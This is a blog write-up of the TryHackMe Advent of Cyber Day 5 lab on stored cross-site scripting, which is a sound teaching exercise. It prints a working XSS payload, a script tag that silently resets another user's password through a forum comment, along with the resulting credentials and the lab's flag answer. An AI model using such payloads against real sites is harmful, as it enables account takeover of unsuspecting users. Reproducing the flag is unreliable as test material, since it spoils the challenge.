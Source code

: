 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 5 - Pesky Elf Forum"
date:   2021-12-12 17:00:00 +1000
excerpt: Learning about XSS. 
---
```


This is a write up for the Day 5 - Pesky Elf Forum challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### What flag did you get when you disabled the plugin?

After loggin in a McSkidy, we add a comment to check if a Stored XSS vulnerability is present.

Add an underline to the text and as it is rendered, Stored XSS is present.

```
<u>test</u>
```

<img src="{{ site.baseurl }}/assets/images/2021-12-12-advent-of-cyber-day-5/d5_1.jpg">

As we are trying to change the Grinch's password, we can add a comment with the follow code.

```
<script>fetch('/settings?new_password=pass123');</script>
```

<img src="{{ site.baseurl }}/assets/images/2021-12-12-advent-of-cyber-day-5/d5_2.jpg">

We can now attempt to log in as the Grinch.

```
grinch:pass123
```

Disabling the 'Christmas to Buttmas' plugin reveals the following flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-12-advent-of-cyber-day-5/d5_3.jpg">

> Answer: **THM{NO_MORE_BUTTMAS}**

### Recap

In this task we learnt:
 * What is an XSS vulnerability
 * What Types of XSS vulnerabilities there are
Challenge Walkthrough
 